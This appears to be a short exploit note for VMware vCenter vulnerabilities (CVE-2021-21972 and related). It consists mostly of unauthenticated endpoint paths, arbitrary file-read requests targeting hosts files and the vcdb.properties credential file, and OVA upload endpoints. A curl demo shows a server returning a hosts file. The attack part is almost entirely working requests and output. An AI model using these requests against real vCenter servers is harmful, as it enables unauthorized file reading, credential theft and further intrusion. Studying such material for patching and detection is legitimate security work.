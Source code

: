 
- /vsphere-client/?csp
- /eam/vib?id=C:\\Windows\\System32\\drivers\\etc\\hosts
- /eam/vib?id=/etc/hosts
- /eam/vibd?id=/etc/hosts
- /eam/vibd?id=C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\vcdb.properties
- /ui/vropspluginui/rest/services/checkmobregister
- /ui/vropspluginui/rest/services/uploadova
- /checkmobregister
- /updatetelemetryInfo
- /checkLicenseSuiteApi
- /checkVsanLicenseValidity
- /getvcdetails
- /getstatus
- /testvcconnection
- /testvropsconnection
- /dashboard
- /capacity
- /capacity/memory
- /capacity/cpu
- /capacity/storage
- /license/allLicenses
- /vcclusters
- /vccontention
- /vcclusteralerts
- /inventoryscoreboard
- /alerts
- /vropsURL
- /vcIP
- /serverguid
- /Isceienabled
- /alertdetails
- /vsanalertdetails
- /osdetails
- /vmdetails
- /drs
- 
- POST /vropsinstallation content-type=application/json; charset=UTF-8
- POST /uploadova
- POST /configurevrops content-type=application/json; charset=UTF-8
- C:\\ProgramData\\VMware\\vCenterServer\\logs\\vsphere-client\\logs\\dataservice.log
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vsphere-client\\compatibility-matrix.xml
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vsphere-client\\webclient.properties
- C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\vcdb.properties


### Demo
```
$ curl -ik https://10.x.y.z/vsphere-client/?csp
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=CB600A5211B6C4B056FAFCFB86DEBDC805C0; Path=/vsphere-client/; Secure; HttpOnly
X-UA-Compatible: IE=edge
X-Frame-Options: SAMEORIGIN
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 7650
Date: Wed, 24 Feb 2021 06:09:04 GMT


curl -ik https://10.x.y.z/eam/vib?id=C:\\Windows\\System32\\drivers\\etc\\hosts
HTTP/1.1 200 OK
Transfer-Encoding: chunked
Date: Wed, 24 Feb 2021 05:55:37 GMT
Server: Apache

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
```


### Ref
- https://twitter.com/jas502n/status/1316992409088094209
- [CVE-2021-21972 Vmware vcenter未授权任意文件漏洞分析](https://www.cnblogs.com/potatsoSec/p/14444897.html)
- [Unauthorized RCE in VMware vCenter](https://swarm.ptsecurity.com/unauth-rce-vmware/)
- https://attackerkb.com/topics/5nZX40suYA/cve-2021-21980
- [VMSA-2021-0027 的额外东东](https://articles.zsxq.com/id_1cnl8w2r5hsh.html)
